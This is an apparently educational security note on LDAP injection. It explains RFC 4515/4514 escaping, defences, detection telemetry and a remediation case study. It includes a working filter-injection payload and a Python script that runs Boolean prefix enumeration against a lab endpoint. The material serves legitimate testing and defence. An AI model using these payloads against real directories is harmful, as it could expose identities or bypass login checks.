

# LDAP Injection

> [!warning] Authorized validation only
> Query only a dedicated directory test base containing canary entries. Do not enumerate production identities, passwords, groups, or directory topology.

## Core Vulnerability & Parser Mechanics (Zero)

LDAP injection occurs when untrusted data is concatenated into an LDAP search filter or distinguished name (DN) and is therefore parsed as directory grammar. LDAP is a protocol, not merely a string format. A client encodes operations such as Bind and Search using ASN.1 Basic Encoding Rules (BER). Search includes a structured filter whose protocol representation can express `and`, `or`, `not`, equality, substring, presence, approximate, ordering, and extensible matches. Many application libraries accept RFC 4515 string filters and compile them into that BER structure.

An intended filter such as `(&(objectClass=person)(uid=alice))` has an AND node with two equality children. If an application builds `(&(objectClass=person)(uid=` + input + `))`, a value containing closure characters and another filter can terminate the equality item and add nodes. The precise result depends on parenthesis balance and the library parser. Unlike SQL, the important metacharacters in a filter value are `*`, `(`, `)`, backslash, and NUL; RFC 4515 defines hexadecimal escaping for their octets.

DN construction is a separate grammar governed primarily by RFC 4514. Comma, plus, quote, backslash, angle brackets, semicolon, leading/trailing spaces, and a leading hash can have structural meaning depending on position. Escaping a filter value with a DN routine—or the reverse—is a common security defect. The report must state whether the injection point is a search filter, a DN/RDN, an LDAP URL, or an application-specific expression.

Presence filters such as `(uid=*)`, substring filters, and Boolean composition can create broad matches. Authentication code is especially risky if it treats “one or more results” as success or uses the first entry without verifying an exact normalized identity. A secure login does not search with a user-controlled password filter; it locates a single identity through a safely escaped equality filter and performs a bind or other approved verifier with explicit result handling.

LDAP character encoding also matters. RFC 4515 strings are UTF-8 with escaped octets for invalid or special bytes. Percent decoding occurs at HTTP, while LDAP escaping occurs later; these are not interchangeable. A WAF may inspect `%2A` while the application sees `*`, or a double-decoding bug may transform `%252A` into an operator. Unicode normalization can make visually equivalent identifiers compare differently according to directory matching rules. This can produce identity ambiguity even without filter injection.

Defenses are typed directory APIs, correct context-specific escaping, strict identifier schemas, fixed search bases and scopes, size/time limits, exact-result cardinality checks, least-privilege bind identities, and no user control over attributes or matching rules. LDAP signing and channel binding protect transport/authentication integrity but do not repair unsafe filter construction.

## Visual Attack Flow



Directory telemetry should record normalized filter shape and search scope while redacting sensitive values. The canary base prevents broad directory exposure even if the filter becomes permissive.

## Weaponization & Practical Execution (Mastery)

### Filter structure validation

Baseline:

```http
GET /lab/directory/person?uid=C2R-NOTFOUND HTTP/1.1
Host: identity.example.test
Accept: application/json
X-Assessment-ID: C2R-LDAP-009
```

```http
HTTP/1.1 404 Not Found
Content-Type: application/problem+json

{"title":"No synthetic entry"}
```

Bounded canary probe, URL-encoding the filter grammar:

```http
GET /lab/directory/person?uid=%2A%29%28%7C%28uid%3DC2R-CANARY%29%29%28uid%3D%2A HTTP/1.1
Host: identity.example.test
Accept: application/json
X-Assessment-ID: C2R-LDAP-009
```

In an intentionally vulnerable fixture, the application log may show:

```text
constructed_filter=(&(objectClass=person)(uid=*)(|(uid=C2R-CANARY))(uid=*)))
ldap_base=ou=Canaries,dc=example,dc=test
ldap_scope=ONELEVEL
result_count=1
request_id=req-ldap-331
```

The expected public response discloses only the synthetic marker:

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"count":1,"record":{"uid":"C2R-CANARY","synthetic":true}}
```

A secure implementation escapes the entire input value so special characters remain data. Conceptually, `*` becomes `\2a`, `(` becomes `\28`, `)` becomes `\29`, backslash becomes `\5c`, and NUL becomes `\00` in an RFC 4515 filter value. Use the LDAP library’s encoder rather than a handwritten replacement routine.

### Bounded Boolean prefix validator

```python
import requests

URL = "https://identity.example.test/lab/directory/person"
HEADERS = {"X-Assessment-ID": "C2R-LDAP-009"}

def canary_prefix(prefix):
    # Lab fixture only: the endpoint intentionally exposes count, never production data.
    value = f"*)(|(uid={prefix}*))(uid=*"
    r = requests.get(URL, params={"uid": value}, headers=HEADERS, timeout=3)
    return r.status_code, r.json().get("count", 0)

for prefix in ["C", "C2", "C2R", "WRONG"]:
    print(prefix, canary_prefix(prefix))
```

```text
C     (200, 1)
C2    (200, 1)
C2R   (200, 1)
WRONG (404, 0)
validation stopped at known synthetic prefix
```

Test literal, percent-encoded, and double-encoded metacharacters only to map transformations. JSON scalar-to-array/object changes can expose framework coercion but are not inherently LDAP injection. Also verify malformed filter handling: the public service should return a generic 400, while restricted logs capture a parser category without echoing the complete filter.

## Red Team OpSec & Impact

An authorized identity-platform assessment reviewed a legacy people-search route backed by Active Directory Lightweight Directory Services. The tester used a nonexistent UID, then a balanced filter that could match only `C2R-CANARY` under a dedicated organizational unit. The result count changed from zero to one. Application tracing showed request data concatenated directly into an RFC 4515 filter; the generic LDAP helper had escaped DNs, not filter values.

The WAF detected encoded parentheses but did not block because similar characters appeared in legitimate search syntax on another route. Directory auditing provided better context: one identity issued several searches with changing filter shapes and wildcard usage against the same base. On Microsoft directory infrastructure, diagnostic event 1644 can provide expensive/inefficient LDAP query details when configured carefully; LDAP interface events and application telemetry may also expose bind identity, base DN, scope, filter class, attributes, duration, and result count. Event 2889 relates to unsigned binds and is useful hygiene telemetry, but it does not specifically detect filter injection.

A SIEM correlation should combine URL-decoded LDAP metacharacters, malformed-filter exceptions, presence/OR node growth, rapid prefix-pattern changes, abnormal search result cardinality, and an application route whose normal filter-shape hash is fixed. Alerting on every asterisk is noisy because directory applications legitimately use substring searches. Higher confidence comes from structural imbalance, repeated Boolean variants, unexpected operators on an exact-match route, or a search leaving its approved base/scope.

The fix used the vendor library’s filter encoder, enforced a bounded UID syntax, fixed the base and attribute list, required exactly one result, and moved authentication to an explicit bind flow. Regression tests cover metacharacters, UTF-8, NUL, percent/double encoding, duplicate fields, malformed filters, and DN-versus-filter escaping. Purple-team replay confirmed HTTP 400 before an LDAP request for invalid input and a constant equality-filter shape for valid users.

---
> 🔼 Up: [[Web Injection Testing]]
